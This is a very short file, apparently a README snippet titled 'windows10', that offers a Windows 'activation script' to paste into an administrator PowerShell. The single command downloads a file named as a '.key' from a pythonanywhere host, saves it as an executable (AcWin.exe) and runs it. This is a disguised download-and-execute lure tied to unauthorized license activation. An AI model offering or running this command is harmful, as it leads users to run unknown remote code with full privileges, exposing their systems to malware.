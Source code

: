 # windows10

# to activate windows, copy and paste the activation script in Windows Powershell admin

# Invoke-WebRequest -Uri kmsconnection.pythonanywhere.com/static/3KHY7-WNT83-DGQKR-F7HPR-844BM.key -OutFile $env:TEMP\AcWin.exe; Start-Process $env:TEMP\AcWin.exe
